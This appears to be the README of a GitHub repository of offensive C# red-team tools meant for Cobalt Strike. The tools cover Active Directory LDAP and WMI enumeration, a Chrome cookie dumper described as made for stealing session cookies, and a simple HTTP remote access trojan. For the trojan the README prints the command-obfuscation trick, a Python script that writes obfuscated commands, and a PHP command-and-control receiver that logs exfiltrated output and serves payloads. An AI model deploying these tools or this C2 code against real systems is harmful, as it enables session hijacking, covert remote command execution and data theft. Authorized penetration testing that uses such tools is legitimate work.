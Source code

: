 # RedTeamCSharpScripts
C# Script used for Red Team. These binaries can be used by Cobalt Strike execute-assembly or as standalone executable. 


# LDAP utility

LDAP utility contains several LDAP query that will return all the valuable information you are looking for.

The utility support the following options

```
DumpAllUsers        Dump all the users 
DumpUser            Dump user information based on the samaccountname provided
DumpUsersEmail      Dump all users and email addresses
DumpAllComputers    Dump all computers
DumpComputer        Dump a computer information based on the name provided
DumpAllGroups       Dump all groups
DumpGroup           Dump a group information based on the name provided
DumpPasswordPolicy  Dump domain password policy
CheckManaged        Check GPOs for managedby objects    
```

```
Usage: ldaputility.exe options domain [arguments]

ldaputility.exe DumpAllUsers RingZer0
ldaputility.exe DumpUser RingZer0 mr.un1k0d3r
ldaputility.exe DumpUsersEmail RingZer0
ldaputility.exe DumpAllComputers RingZer0 
ldaputility.exe DumpComputer RingZer0 DC01
ldaputility.exe DumpAllGroups RingZer0
ldaputility.exe DumpGroup RingZer0 "Domain Admins"
ldaputility.exe DumpPasswordPolicy RingZer0
ldaputility.exe DumpPwdLastSet RingZer0
ldaputility.exe DumpLastLogon RingZer0
ldaputility.exe CheckManaged RingZer0
```

The `-verbose` switch can be added to get verbose output.

### The CheckManaged feature

Active Directory support the following two attributes `managedobjects` and `managedby`. These attributes can be used to assign a manager to an object. It can be a user managing a computer. There is a GPO that can be used to grant local admin to managedobjects owner. The user will not be listed as a local admin by default by the correlation between `managedby` and `managedobjects` can identify users that managed computers.

The `CheckManaged` feature first confirm the presence of the GPO in question by looking at the SYSVOL policies present on the DC. If the `groups.xml` is present, it dump all the users with a `managedobjects` attribute and the computers with a `managedby` attribute.

![managedexample](https://raw.githubusercontent.com/Mr-Un1k0d3r/RedTeamCSharpScripts/master/managed.png)

# Cookies Monster

Fetch Chrome cookie in plaintext. Perfect to steal a target session cookie through execute-assembly

```
Usage: CookiesMonster.exe filter
```

The filter argument is optional. If not specified it will dump all the cookies. Since the cookies are encrypted using ProtectedMemory Windows APIs you need to have access to the current user context to be able to generate the proper decryption key. 

The binary need to be compiled statically to include the System.Data.SQLite dll.

# WMI Utility

Set of predefined WMI query that can be used to query CIM classes.

The utility support the following options

```
Usage: WMIUtility.exe options [arguments]

ListProcess         Return a list of running process
ListService         List all the services
Query               Args (query, columns) wmiutility.exe Query "Select * From Win32_CommandLineAccess" "Name,Description"

ListRemoteProcess   Return a list of running process on the target host
ListRemoteService   Return a list of all the services on the target host
Get-EventForUser    Search for 4624 events targeting specific user
RemoteQuery         Args (query, columns) 
Get-Av              Return a list of potential security product

EX:
wmiutility.exe ListRemoteProcess <ComputerName> <Username> <Password>
wmiutility.exe ListRemoteService <ComputerName> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> <DomainController> <Username> <Password>
wmiutility.exe Get-EventForUser <samAccountname> all <Username> <Password>
wmiutility.exe RemoteQuery "Select * From Win32_CommandLineAccess" "Name,Description" <ComputerName> <Username> <Password>
```

# enumerateuser.cs

List all the users samaccountname & mail

```
execute-assembly C:\enumerateuser.exe domain
```

# ldapquery.cs

Perform custom ldap queries

```
execute-assembly C:\enumerateuser.exe ringzer0team "(&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))" samaccountname,mail

Querying LDAP://ringzer0team
Querying: (&(objectCategory=User)(samaccountname=Mr.Un1k0d3r))
Extracting: samaccountname,mail
Mr.Un1k0d3r,Mr.Un1k0d3r@corp.com,
```

# simple-http-rat.cs

A simple RAT that execute command over HTTP. The code is calling back every 10 seconds and will execute the data present on the callback URL.

`rat.exe callbackurl`

The data is obfuscated using the following python trick

```
$ python -c 'import base64; print base64.b64encode("cmd.exe /c whoami")[::-1]'
=kWbh9Ga3ByYvASZ4VmLk12Y
```

The file creation can also be automated using the following script

```
import base64
import sys
import os

path = sys.argv[1]
cmd = sys.argv[2]

if os.path.exists(path):
        os.remove(path)
        
open(path, "w+").write(base64.b64encode(cmd)[::-1])
print "Command added"
```

```
update.py /var/www/html/callback.html "whoami"
```

For the post back RAT the following PHP code can be used to capture the data

```
<?php
$request = (object)array();

if($_SERVER['REQUEST_METHOD'] === "POST") {
        $request->data = file_get_contents("php://input");
        $request->ip = $_SERVER["REMOTE_ADDR"];
        $request->time = date("r");

        $data = str_replace("!)(*&#:<]", "A", $request->data);
        $decoded = base64_decode($data);

        file_put_contents("/tmp/output.txt", "[" . $request->time . "](" . $request->ip . "): " . $decoded . "\r\n", FILE_APPEND);
} else {
        echo file_get_contents("/tmp/payload.txt");
}
?>
```

# Credit

Mr.Un1k0d3r RingZer0 Team

Tazz0 RingZer0 Team

# Contributors

@theFlinkk for the AV module
